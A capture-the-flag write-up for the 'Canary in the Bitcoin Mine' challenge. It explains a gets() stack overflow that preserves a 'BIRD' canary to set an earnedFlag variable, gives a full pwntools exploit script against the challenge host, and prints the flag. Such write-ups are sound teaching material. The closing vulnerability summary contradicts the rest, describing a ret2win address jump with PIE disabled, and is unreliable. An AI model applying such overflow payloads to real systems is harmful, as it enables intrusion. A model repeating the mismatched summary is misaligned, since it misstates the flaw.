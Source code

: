 # Canary in the Bitcoin Mine - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/CanaryInTheBitcoinMine.gif)

---

## Challenge Summary

This challenge simulates a buffer overflow scenario protected by a stack canary. The program reads user input into a fixed-size buffer using the unsafe gets() function. The buffer is followed by a canary value (0x44524942, representing "BIRD"), and a boolean flag earnedFlag.

If the input overwrites the canary, the program detects the corruption and exits. To earn the flag, the attacker must carefully overflow the buffer without corrupting the canary, and set the earnedFlag variable to true. Once set, the hidden win() function is triggered to print the flag from flag.txt.

## Binary Information

```bash
$ file canary_in_the_bitcoin_mine
```

![Alt text](img/2.png)

```bash
$ pwn checksec canary_in_the_bitcoin_mine
```

![Alt text](img/3.png)

---

## Static Analysis (CLion - JetBrains)

- The program declares a local struct `mineshaft` containing a 64-byte buffer `mine`, a 4-byte canary (`canary`), and a boolean flag (`earnedFlag`).
- The `gets()` function is used to read user input into `mine` without bounds checking, making it vulnerable to buffer overflow.
- The canary is initialized to `0x44524942` (`"BIRD"` in little-endian) and checked after input to detect overflow.
- If the canary value is modified, the program exits immediately.
- The boolean flag `earnedFlag` is initially `false`. The program checks it after input and calls `win()` to print the flag only if this flag is set to `true`.

  ![Alt text](img/4.png)

- The overflow vulnerability can be exploited by overwriting memory **past the buffer but before the canary** to control `earnedFlag` without corrupting the canary.
- CLion’s debugger can help visualize the memory layout, allowing precise calculation of overflow offsets to manipulate `earnedFlag` safely.

  ![Alt text](img/5.png)

  This analysis highlights a classic **stack buffer overflow with canary protection**, requiring careful input crafting to bypass the canary check and set `earnedFlag` to gain the flag.

  ![Alt text](img/6.png)

---

## Exploit Strategy

Use a carefully crafted input to overflow the buffer and set the earnedFlag to true without overwriting the canary. This triggers the win() function and reveals the flag. Precise control is needed to avoid canary corruption while modifying adjacent memory.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template canary_in_the_bitcoin_mine --host host3.metaproblems.com --port 5980
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'canary_in_the_bitcoin_mine')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'host3.metaproblems.com'
port = int(args.PORT or 5980)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

BUFFER = b'A' * 64
CANARY = b'BIRD'
EARNED_FLAG = b'true'

payload = flat(
        BUFFER,
        CANARY,
        EARNED_FLAG
)
io.sendline(payload)
io.recvuntil(b"Well done, you've earned the flag!")
io.recvline()
flag = io.recvline().strip()
log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")


```

---

## Exploit Output

![Alt text](img/6.png)

---

## Vulnerability Summary

The program takes a user-supplied memory address and directly jumps to it. With PIE disabled, function addresses like win() are static and easy to find. This allows the user to redirect execution without any memory corruption, making it a simple ret2win vulnerability.

## Flag

```
MetaCTF{jmp1ng_t0_th3_g00d_l00t}
```
